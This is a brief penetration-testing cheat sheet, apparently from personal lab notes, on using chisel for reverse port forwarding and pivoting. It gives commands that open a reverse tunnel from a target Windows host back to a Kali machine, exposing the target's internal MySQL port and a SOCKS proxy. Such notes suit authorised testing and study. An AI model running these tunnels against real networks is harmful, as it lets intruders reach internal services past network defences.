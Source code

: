# Chisel

## reverse port forwarding

Set up chisel on kali:

```
chisel server --socks5 --reverse
```

* \--port 9090: specify a port

Set up chisel on target:

{% code overflow="wrap" %}
```
chisel.exe client --fingerprint HEoB1nCbMpJ7xkjsc3K1+OXhzX/LosSQH1N/D0xBXcU= 10.10.14.37:8080 R:1235:127.0.0.1:3306
```
{% endcode %}

* 10.10.14.37:8080 - kali ip and listening port
* R - Reverse mode
* R:1235:127.0.0.1:3306 - forwarding local port `3306` to port `1235` on Kali
  * Any connection made to `127.0.0.1:1235` on Kali gets tunneled to `127.0.0.1:3306` on the Windows machine.

{% code overflow="wrap" %}
```powershell
.\chisel.exe client --fingerprint Fnf/vsHzVoyVlhb+FJ8qeuZ4B4u/oif8K/M9KZNXOME= 192.168.45.173:9090 R:socks
```
{% endcode %}







{% embed url="https://medium.com/@gsanjay1708/pivoting-with-chisel-b5bbd8e1e92b" %}

